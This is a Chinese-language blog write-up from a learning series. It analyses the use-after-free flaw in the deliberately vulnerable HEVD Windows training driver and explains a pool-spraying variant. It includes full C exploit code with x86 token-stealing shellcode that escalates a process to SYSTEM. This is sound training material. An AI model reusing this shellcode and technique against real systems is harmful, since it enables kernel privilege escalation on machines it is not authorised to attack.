


## 0x00 前言
这篇就是 HEVD 系列的最后一篇了，有些话我放在结尾说吧。

本篇的内容为 Use After Free 漏洞分析利用。

## 0x01 Use After Free 漏洞分析
按套路我们先打开 UseAfterFreeNonPagedPool.c 文件，这个文件代码相对之前做的稍微长一点，但其实也不算长，毕竟就算是 wrk 的文件也动不动就是好几千行。

这里我就不解释源码了，大家认真阅读一下就可以知道。

可以看到，漏洞发生在 Free 函数中



当我们用 Alloc 函数在非换页池中分配完空间并使 g_UseAfterFreeObjectNonPagedPool 指向这段空间后，在 Free 函数的时候只释放了这段非换页池空间但并没有将 g_UseAfterFreeObjectNonPagedPool 指针置 NULL。

再看到 UseUaFObjectNonPagedPool 函数中，若 g_UseAfterFreeObjectNonPagedPool 不为 NULL 将执行 g_UseAfterFreeObjectNonPagedPool->Callback()

那么利用就很清晰了，我们只需要
> 1. 利用 Alloc 函数分配空间并使 g_UseAfterFreeObjectNonPagedPool 指向该段空间
> 2. 调用 Free 函数释放这段空间，但 g_UseAfterFreeObjectNonPagedPool 仍然指向该空间
> 3. 调用 AllocFake 来使页面变脏，使 g_UseAfterFreeObjectNonPagedPool -> Callback 的位置变为我们 shellcode 的地址
> 4. 调用 UseUaFObjectNonPagedPool 触发 g_UseAfterFreeObjectNonPagedPool->Callback() 来执行我们的 shellcode

## 0x02 Use After Free 漏洞利用
这里有个问题就是，Free 函数释放掉的 Alloc 函数分配的空间跟之后 AllocFake 分配的空间是同一块吗？（注意到 Alloc 和 AllocFake 申请的空间大小是相等的）

这就涉及到 Windows 的内存管理算法了。其实你释放掉一块空间后立马又申请一块大小相等的空间内存管理器是倾向于分配同一块空间给你的。

所以我们只需要这么一段代码就能提权了

```c
// useAfterFree.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

#define UseUafObject 0x222017
#define	AllocateUafObject 0x222013
#define FreeUafObject 0x22201b
#define AllocateFakeUafObject 0x22201f

typedef struct _FAKE_OBJECT_NON_PAGED_POOL
{
	char Buffer[0x58];
} FakeObject, *PFakeObject;

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
};

int main()
{
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	PFakeObject pfakeObject = (PFakeObject) malloc(sizeof(FakeObject));
	memset(pfakeObject, '\x42', sizeof(FakeObject));

	*(PDWORD)pfakeObject = (DWORD)ptr;

	int noUseBuf = 0x1;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, AllocateUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, FreeUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);
	DeviceIoControl(hevDevice, AllocateFakeUafObject, pfakeObject, sizeof(FakeObject), NULL, 0, &lpBytesReturned, NULL);

	DeviceIoControl(hevDevice, UseUafObject, &noUseBuf, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

    return 0;
}

```
运行起来下个断点看看



可以看到，Alloc 和 AllocFake 申请的非换页池的基址是一模一样的。

到这里其实已经解完了。解完之后我又想看看别的师傅是怎么做的，然后我就熟练地打开了 [rookit 师傅的博客](https://rootkits.xyz/blog/2018/04/kernel-use-after-free/)

可以看到他的方法和我是不一样的。虽然在这里是没必要用这个方法的，但是若 Alloc 和 AllocFake 分配的空间基址不同呢，比如说两块空间不一样大的情况。

还记得我们在池溢出一章中用到的池喷射吗？这里使用的是 IoCompletionReserve 对象，因为 IoCompletionReserve 在非换页池中的大小正好是 0x60。（pool header + 0x58 = 0x60） IoCompletionReserve 对象可以通过 NtAllocateReserveObject 函数来获得。

就像我们在池溢出一章中所做的一样，先用 10000 个 IoCompletionReserve 对象来把非换页池中的碎片填满，就算之后还有碎片的存在也放不下我们 0x60 个字节的 Alloc 对象。然后可以认为之后分配的 5000 个 IoCompletionReserve 对象是连续的，在中间每隔一个 IoCompletionReserve 对象挖出一个 0x60 个字节的洞。然后调用 Alloc 函数，可以认为 Alloc 函数分配的空间是我们刚刚挖出的其中一个洞。释放掉 Alloc 对象之后用 AllocFake 对象填满所有挖出来的洞，那么 g_UseAfterFreeObjectNonPagedPool 指针一定是指向我们的 shellcode 的，最后调用函数 UseUaFObjectNonPagedPool 触发漏洞执行 shellcode 就好了。执行完 shellcode 之后记得回收我们刚刚分配的所有空间。

到这里也可以提权成功了。

## 0x03 结束语
好了，至此 HEVD 项目的学习就告一段落了。

非常感谢该项目的提供者。HEVD 确实是一个适合学习、适合入门的项目，我在这些天的过程中确实学到了很多。

之后一段时间打算着手于 CVE 漏洞的复现，也就是将漏洞的分析利用从学习环境挪到真实环境下了，将平台从 x86 扩展到 x64 环境下。

最后，看看自己有没有那个水平走上挖洞的路了。

： )

---

<p align='right'>2019.9.7</p>

